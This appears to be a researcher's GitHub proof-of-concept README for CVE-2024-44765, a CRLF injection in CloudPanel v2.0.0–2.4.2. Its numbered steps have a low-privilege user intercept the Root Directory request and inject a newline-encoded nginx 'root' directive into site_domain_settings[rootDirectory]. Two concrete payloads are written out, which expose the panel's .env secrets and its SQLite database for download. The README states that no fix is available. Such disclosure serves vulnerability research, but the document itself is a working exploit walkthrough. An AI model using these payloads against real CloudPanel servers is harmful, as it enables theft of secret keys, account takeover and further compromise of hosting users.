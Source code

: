 # Proof of Concept (PoC) for Cloudpanel [Improper Authorization or Access Control Misconfiguration / CVE-2024-44765]

## 📖 Introduction
> A CRLF injection vulnerability in MGT-COMMERCE GmbH CloudPanel v2.0.0 to v2.4.2 allows low privilege attackers to escalate privileges and access sensitive information via manipulation of the Nginx configuration file.
> <br> [!] Low Privilege user also could directly modify its vhost configuration to retrieve sensitive data. [!]

---

## 🔍 Overview

- **Researcher:** [Your Name](https://github.com/EagleTube)
- **CVE ID:** CVE-2024-44765
- **Vulnerability Type:** CRLF Injection
- **Affected Products:** v2.0.0 - 2.4.2
- **Severity:** High
- **Fix Available:** No

---

## 🛠️ Technical Details

A detailed technical description of the vulnerability, including:
- The root cause of this issue when user are not restrict modifying vhost nginx configuration
- The vulnerability occur when attacker which have low privilege manipulate the nginx configuration by change its document root to main cloudpanel document root
- After change the root folder in nginx configuration , attacker could download .env and .sq3 sqlite file in main clp directory

## 🚨Post Exploitation
- Data Breach
- Admin Account Take Over
- Secret Key Exposure
- Web Shell upload
- Privilege Escalation

### Vulnerability Documentation:

- This vulnerability require at least lower privileges in cloudpanel, follow this step to achieve the CRLF injection

1. **Step 1**: Access the cloudpanel with your user:

2. **Step 2**: Click manage and check Root Directory input:

3. **Step 3**: Click save and intercept the request via burp suite:

4. **Step 4**: Leaking sensitive data.

    4.1 **Step 4.1**: (leak secret token) From the site_domain_settings[rootDirectory] parameter query put payload like below.
        ```
        site_domain_settings[rootDirectory]=yourdomain.my;%0aroot%20/home/clp/htdocs/app/files
        ```
   
    4.2 **Step 4.2**: (leak sqlite db) From the site_domain_settings[rootDirectory] parameter query put payload like below.
        ```
        site_domain_settings[rootDirectory]=yourdomain.my;%0aroot%20/home/clp/htdocs/app/data
        ```
   
5. **Step 5**: Open your website and your root directory have change now you just put .env or db.sq3.
   ```
   https://yourdomain.my/.env | https://yourdomain.my/db.sq3
   ```
